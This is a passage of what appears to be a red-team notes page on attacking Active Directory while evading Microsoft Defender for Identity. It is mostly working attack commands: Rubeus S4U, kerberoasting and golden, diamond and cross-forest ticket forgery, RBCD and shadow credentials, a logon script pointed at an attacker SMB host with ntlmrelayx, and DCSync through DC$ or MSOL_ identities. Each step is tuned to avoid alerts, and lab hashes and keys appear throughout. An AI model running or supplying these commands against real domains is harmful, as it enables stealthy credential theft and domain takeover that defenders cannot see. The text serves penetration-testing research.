

#### Emulate a Genuine S4U2Proxy TGS-REQ

- Include `PA-PAC-OPTIONS`.
- Enable `canonicalize` in KDC options.
- Include all 5 supported etypes.
- Remove the `cname` field.
- Set a proper `till` field (`+15min`).
- Include `enc-authorization-data`.

```bash
# OPSEC-friendly
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe s4u /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:svc_mhd /aes256:05B2FCE16C6564D6A8BXXXXXXXXXXXXXC3F66FC4F5E376FD8EBB76B8D0 /impersonateuser:Administrator /msdsspn:svc2/srv01.yhp0w.lan /enctype:aes256 /opsec /nowrap /ptt

# Less OPSEC (MDI may detect - undetected in lab)
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe s4u /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:svc_mhd /rc4:F894F8DBE06D4XXXXXXX202F4A5160D /impersonateuser:Administrator /msdsspn:svc2/srv01.yhp0w.lan /enctype:aes256 /opsec /nowrap /ptt
```


---

## Kerberoasting OPSEC

### MDI Detections

MDI detects:
- Encryption downgrade to RC4_HMAC (etype 0x17)
- Reconnaissance for kerberoastable accounts (LDAP query for users with SPN)

```bash
# Detected by MDI - LDAP recon
Get-DomainUser -SPN
Rubeus.exe kerberoast /stats

# Detected by MDI - LDAP recon + encryption downgrade
Rubeus.exe kerberoast
Rubeus.exe kerberoast /user:svc_mhd /simple /rc4opsec
```


### OPSEC Approach

- Fetch **all users** without filtering by SPN, then identify kerberoastable accounts offline.
- Only kerberoast accounts that do **not** support AES (to avoid encryption downgrade alerts).
- Request one TGS ticket at a time.

```bash
# OPSEC recon - no SPN filter
Get-DomainUser | select samaccountname,serviceprincipalname,msds-supportedencryptiontypes

# OPSEC kerberoasting - specify SPNs explicitly, one at a time
Rubeus.exe kerberoast /spn:SVC2\srv01.yhp0w.lan /simple /nowrap /rc4opsec
Rubeus.exe kerberoast /spns:c:/users/consultant/documents/mhd/spns.txt /simple /nowrap /rc4opsec
```


### Targeted Kerberoasting (GenericWrite)

MDI does **not** detect modification of `ServicePrincipalName` or `msDS-SupportedEncryptionTypes` attributes.

```bash
# Downgrade supported encryption to RC4
Set-DomainObject -Identity svc_mhd2 -Set @{'msDS-SupportedEncryptionTypes' = 0}

# Add a fake SPN if none exists
Set-DomainObject -Identity svc_mhd2 -Set @{'servicePrincipalName' = 'http/fake'}

# Kerberoast
Rubeus.exe kerberoast /spn:http/fake /simple /nowrap /rc4opsec
```


---

## Identity Attack Paths

> These attack paths are detected by MDI. No reliable bypass has been identified.

### Entra Connect Interactive Logon

MDI detects interactive logon to the Entra Connect server.


### RBCD (Resource-Based Constrained Delegation)

MDI detects any modification of the `msds-allowedtoactonbehalfofotheridentity` attribute.

```bash
# RBCD - GenericWrite over a computer account
Import-Module .\PowerView.ps1

$ObjectSid = "S-1-5-21-2498267786-1201464700-2190978386-2104"  # SID of attacker-controlled account
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ObjectSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# Detected by MDI
Get-DomainComputer SRV01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

# Exploit RBCD
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe s4u /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:svc_mhd /rc4:F894F8DBE06D430421B73202F4A5160D /impersonateuser:Administrator /msdsspn:wsman/srv01.yhp0w.lan /enctype:aes256 /opsec /nowrap /ptt
winrs -r:srv01.yhp0w.lan cmd

# Clean up
Get-DomainComputer SRV01 | Set-DomainObject -Clear msds-allowedtoactonbehalfofotheridentity -Verbose
```


### Shadow Credentials

MDI detects any modification of the `msds-KeyCredentialLink` attribute.

```bash
# Shadow Credentials - GenericWrite over an account
certipy-ad shadow auto -u 'svc_mhd@yhp0w.lan' -p 'Open@llP@55' -dc-ip '172.23.126.134' -account 'srv01$'
```


---

## Logon Script Abuse

MDI does **not** detect modification of `homeDirectory` or `scriptPath` attributes.

```bash
# Set malicious logon script
Set-DomainObject -Identity svc_mhd2 -Set @{'homeDirectory' = '\\172.23.126.150\scripts\share'}
Set-DomainObject -Identity svc_mhd2 -Set @{'scriptPath' = '\\172.23.126.150\scripts\logon.exe'}

# Capture with SMB relay
sudo ntlmrelayx.py -t smb://172.23.126.139 -smb2support -socks
```


---

## DCSync OPSEC

DCSync uses the Directory Replication Service (DRS) to request hash synchronization from a DC. MDI detects it when performed with a regular user account.

**MDI Alerts:**


**Bypass strategies:**

- Use a **Domain Controller identity** (`domain-dc$`) - excluded from MDI alerts.
- In hybrid identity environments, use the **`MSOL_<id>` account** - AD Connect synchronizes hashes every 2 minutes using this account, and MDI excludes it from alerts.

```bash
# OPSEC-friendly - from Linux using DC identity
impacket-secretsdump -dc-ip 172.23.126.134 'yhp0w.lan/dc01$'@dc01.yhp0w.lan -aesKey f6cc80f83cfcfb67177a65d39d43c09c2ed07815e4dea3528e735cdd658b5ab2 -just-dc-user krbtgt

# OPSEC-friendly - from Windows using MSOL_ account
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe asktgt /domain:yhp0w.lan /dc:dc01.yhp0w.lan /user:MSOL_9c658791b701 /aes256:7d89e84ba529220ad87a1f7f5760ff729b984a45ab27e893091d641b323a72d9 /enctype:aes256 /opsec /nowrap /ptt
mimikatz.exe "lsadump::dcsync /user:Administrator /dc:dc01.yhp0w.lan /domain:yhp0w.lan" "exit"
```


---

## Forged Tickets OPSEC

### Golden Ticket

Tools like Rubeus or Mimikatz fail to fill or incorrectly fill some PAC fields, generating detectable discrepancies.



**Key PAC fields to populate manually:**

| Field | Source |
|-------|--------|
| `PWD Last Set` | `Get-DomainUser <user>` |
| `PWD Must Change` | `Get-DomainUser <user>` |
| `Full Name` | `Get-DomainUser <user>` |
| `Logon Count` | `Get-DomainUser <user>` |
| `User Flags` | `Get-DomainUser <user>` |
| `Server` | Domain info |
| `Type: UPN DNS Info` | Domain info |
| `NetBIOSName` | See below |

```bash
# User fields
Get-DomainUser mhd

# Domain policy fields
Get-DomainPolicy
net accounts /domain

# NetBIOSName
$root = [ADSI]"LDAP://RootDSE"
$domainDN = $root.defaultNamingContext
$searcher = New-Object System.DirectoryServices.DirectorySearcher
$searcher.SearchRoot = [ADSI]"LDAP://CN=Partitions,CN=Configuration,$domainDN"
$searcher.Filter = "(nCName=$domainDN)"
($searcher.FindOne().Properties.netbiosname)[0]
# Or with ADModule:
Get-ADDomain
```

```bash
# More OPSEC-friendly (still detected - no associated AS-REQ)
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe golden /aes256:1a0e0713a7666e5bb5dc319b2340f1c85ebfccfccfc3a55de1f019d35e4fa8c4 /dc:dc01.yhp0w.lan /domain:yhp0w.lan /user:mhd /id:2103 /pgid:513 /sid:S-1-5-21-2498267786-1201464700-2190978386 /pwdlastset:"12/13/2024 9:03:11 PM" /logoncount:6 /groups:513,512 /uac:NORMAL_ACCOUNT /maxpassage:42 /minpassage:0 /netbios:YHP0W /opsec /nowrap /ptt

dir \\dc01\c$\users\administrator  # Test detection
```


> Always use a **valid, active DA account** for the golden ticket.

```bash
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe golden /aes256:1a0e0713a7666e5bb5dc319b2340f1c85ebfccfccfc3a55de1f019d35e4fa8c4 /dc:dc01.yhp0w.lan /domain:yhp0w.lan /user:administrator /id:500 /pgid:513 /sid:S-1-5-21-2498267786-1201464700-2190978386 /pwdlastset:"4/10/2026 4:25:37 PM" /logoncount:79 /groups:513,512 /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /maxpassage:42 /minpassage:0 /startoffset:0 /endin:600 /renewmax:10080 /netbios:YHP0W /opsec /nowrap /ptt

dir \\dc01\c$\users\administrator  # Test detection
```


---

### Diamond Ticket

Rather than forging a new ticket offline, a Diamond Ticket modifies an **existing valid TGT** - changing group membership, privileges, or lifetime - then re-encrypts it.

> "Golden and Silver tickets can usually be detected by probes that monitor TGS requests with no corresponding AS-REQ. Diamond tickets simply request a normal ticket, decrypt the PAC, modify it, recalculate signatures, and re-encrypt it." - [The Hacker Recipes](https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/diamond)

**Advantages over Golden Ticket:**
- Has an associated AS-REQ - avoids the "TGS with no AS-REQ" detection.
- PAC is based on a real ticket - less likely to fail PAC validation.

```bash
# OPSEC-friendly diamond ticket
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe diamond /krbkey:1a0e0713a7666e5bb5dc319b2340f1c85ebfccfccfc3a55de1f019d35e4fa8c4 /user:consultant /aes256:0d87626e50a46ac45dfc302c10eabb815d5dd5cac96340fe9b91694bf9272f32 /dc:dc01.yhp0w.lan /domain:yhp0w.lan /enctype:aes256 /ticketuserid:1118 /groups:512,513 /opsec /nowrap /ptt

# OPSEC-friendly diamond ticket - impersonating another user
Rubeus createnetonly /program:C:\Windows\System32\cmd.exe /show
Rubeus.exe diamond /krbkey:1a0e0713a7666e5bb5dc319b2340f1c85ebfccfccfc3a55de1f019d35e4fa8c4 /user:consultant /aes256:0d87626e50a46ac45dfc302c10eabb815d5dd5cac96340fe9b91694bf9272f32 /dc:dc01.yhp0w.lan /domain:yhp0w.lan /enctype:aes256 /ticketuser:Administrator /ticketuserid:500 /pgid:513 /pwdlastset:"12/13/2024 9:03:11 PM" /logoncount:73 /groups:513,512 /uac:NORMAL_ACCOUNT,DONT_EXPIRE_PASSWORD /minpassage:0 /maxpassage:42 /netbios:YHP0W /opsec /nowrap /ptt

dir \\srv01\c$\users\administrator\  # Test detection
```

---

### Child-to-Forest Trust Abuse

Forge a ticket with the `sIDHistory` of the **Enterprise Domain Controllers** group using the child domain's `krbtgt`. The parent domain trusts the TGT via the inter-domain trust.

#### Golden Ticket - Child to Forest

```bash
# /sid      - child domain SID
# /sids     - parent domain SID + RID 516 (Domain Controllers)
# S-1-5-9   - Enterprise Domain Controllers

Rubeus.exe golden /aes256:5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3EF6FC1FFA58CACD5 /user:us-dc$ /id:1001 /pgid:516 /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /pwdlastset:"10/15/2025 12:59:02 AM" /minpassage:1 /logoncount:4 /netbios:us.techcorp /groups:516 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /dc:us-dc.us.techcorp.local /uac:SERVER_TRUST_ACCOUNT,TRUSTED_FOR_DELEGATION /enctype:aes256 /opsec /nowrap
```

#### Diamond Ticket - Child to Forest

```bash
Rubeus.exe diamond /krbkey:5E3D2096ABB01469A3B0350962B0C65CEDBBC611C5EAC6F3EF6FC1FFA58CACD5 /user:us-dc$ /aes256:aa97635c942315178db04791ffa240411c36963b5a5e775e785c6bd21dd11c24 /enctype:aes256 /domain:us.techcorp.local /dc:us-dc.us.techcorp.local /ticketuserid:1000 /sids:S-1-5-21-2781415573-3701854478-2406986946-516,S-1-5-9 /opsec /nowrap
```

---

## Conclusion

| Category | MDI Detects | OPSEC Approach |
|----------|-------------|----------------|
| **Recon** | Noisy BloodHound LDAP collection | Use SOAPHound / ShadowHound over ADWS (Port 9389) |
| **Kerberoasting** | RC4 encryption downgrade + LDAP SPN recon | Enumerate users without SPN filter; request RC4 only for non-AES accounts |
| **AS-REQ** | Missing pre-auth step, RC4 encryption, wrong KDC options | Use `/opsec` + AES256 in Rubeus |
| **TGS-REQ** | Missing PA-PAC-OPTIONS, wrong etypes/fields | Use `/opsec` + AES256 + multiple service tickets |
| **DCSync** | Regular user performing DRS replication | Use DC$ identity or `MSOL_` account (hybrid AD) |
| **Golden Ticket** | Forged PAC discrepancies, TGS with no AS-REQ | Populate all PAC fields manually; prefer Diamond Ticket |
| **Diamond Ticket** | Lower detection than Golden - inherits real AS-REQ | Preferred over Golden Ticket |
| **RBCD / Shadow Creds** | Attribute modification always detected | No reliable bypass identified |

> **Core rule:** Avoid talking to the DC directly. When you must, emulate genuine Kerberos traffic (AES256, correct fields, multi-ticket requests).

---

## To Do / Further Research

> Claims to verify - untested in the lab.

- MDI detects coercing with MS-DFSNM
- OPSEC AS-REProasting: offline recon for accounts with pre-auth disabled + one AS-REProast at a time
- Silver tickets - MDI detection status?
- MDI detects ESC1–17?

---

## References

- https://learn.microsoft.com/en-us/defender-for-identity/what-is
- https://github.com/0xe7/Talks/tree/main
- https://www.thehacker.recipes/ad/movement/kerberos/forged-tickets/diamond
- https://trustedsec.com/blog/adexplorer-on-engagements
- https://learn.microsoft.com/en-us/sysinternals/downloads/adexplorer
- https://blog.fndsec.net/2024/11/25/shadowhound/
- https://github.com/c3c/ADExplorerSnapshot
- https://github.com/FalconForceTeam/SOAPHound
- https://github.com/Friends-Security/ShadowHound
- https://github.com/coffeegist/bofhound
- https://techcommunity.microsoft.com/blog/coreinfrastructureandsecurityblog/decrypting-the-selection-of-supported-kerberos-encryption-types/1628797
- https://www.thehacker.recipes/ad/movement/dacl/logon-script
- https://blog.cyberadvisors.com/technical-blog/blog/bypassing-microsoft-defender-for-identity-detections
- https://files.brucon.org/2022/0wn-premises%20Bypassing%20Microsoft%20Defender%20for%20Identity.pdf
- https://techcommunity.microsoft.com/blog/microsoftthreatprotectionblog/protect-and-detect-microsoft-defender-for-identity-expands-to-entra-connect-serv/4226165
